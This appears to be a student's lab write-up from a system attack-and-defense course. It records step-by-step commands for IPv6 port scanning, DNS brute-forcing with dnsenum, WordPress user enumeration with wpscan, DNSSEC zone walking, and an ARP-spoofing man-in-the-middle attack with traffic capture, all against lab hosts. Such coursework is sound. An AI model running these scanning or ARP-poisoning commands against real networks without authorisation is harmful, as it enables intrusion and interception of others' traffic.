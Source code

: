 
**Scanning VI**
Used the cmd: nmap -6 -sS -sV fe80::f1a6:f1a6:f1a6:f1a6%eth0 -v -p-
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/d3943b1b-0582-41d8-9d68-f5ca143c4bc8)

ssh -6 fe80::f1a6:f1a6:f1a6:f1a6%eth0 -p 33445
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/5a0f1d46-e64b-46f9-8963-a4cebbe4ec0b)


## Enumeration
**Enumeration I**
a.	Downloaded the dictionary with cmd: 
wget https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/dnsenum/dnsbig.txt
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/ccee20b3-ca18-494d-8400-f42b37f1a966)

b.	Filtered all passwords having ‘vpn’ and saving it to a file “vpn-dns.txt” using: grep 'vpn' dnsbig.txt > vpn-dns.txt
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/63e20bf8-f1f0-4b4f-b9ff-67541d041001)
 
c.	Brute forced to get the vpn fully qualified domain name with cmd: dnsenum -f vpn-dns.txt --dnsserver 10.110.253.20 crimsonia.net
 ![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/60d12dfe-3998-4044-8f0c-9ef6bbe59891)


**Enumeration II**
Used the cmd to scan for wordpress enumeration:
wpscan --enumerate u --url http://meta.crimsonia.net:8080
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/87a62e8d-b6cb-4496-b373-0392cffb0fdf)


**Enumeration III**
a.	First installed ldns-walk
b.	Replaced X with my student number 28
c.	Executed the cmd ldns-walk -f @10.110.28.68 csc.lab
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/383c160c-c998-410b-85e8-f09270e4f327)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/aba98f76-9cb9-4a60-8599-7d30950b13ae)


## Man-In-The-Middle-Attack
**MitM I**
a.	Enabled packet forwarding with cmd :    
echo 1 > /proc/sys/net/ipv4/conf/all/forwarding
b.	Poisoned the ARP table of client data from server with cmd: arpspoof -i eth0 -t 10.110.28.11 10.110.28.12 
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/b8902c74-f126-4101-a4f9-73da4ef777b5)

c.	Opened a new terminal to observe the traffic with tcpdump cmd:
 tcpdump -vv -nn -i eth0 host 10.110.28.11  
 ![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/2a5d9a9f-1c5f-4e28-8c89-ffc271264e4b)
